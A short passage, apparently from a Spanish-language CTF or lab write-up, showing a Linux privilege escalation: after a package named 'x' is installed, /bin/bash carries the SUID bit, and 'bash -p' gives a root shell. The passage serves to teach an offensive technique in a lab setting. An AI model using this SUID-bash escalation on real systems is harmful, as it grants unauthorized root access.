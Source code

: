 ```
  Installing       : x-1.0-1.noarch                                         1/1 
  Verifying        : x-1.0-1.noarch                                         1/1 

Installed:
  x-1.0-1.noarch                                                                

Complete!
```

Si ahora vemos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1443376 Jan 22  2024 /bin/bash
```

Vemos que se cambiaron los permisos correctamente, por lo que haremos lo siguiente:

```shell
bash -p
```

Y con esto ya seremos `root`:

```
whoami
root
```
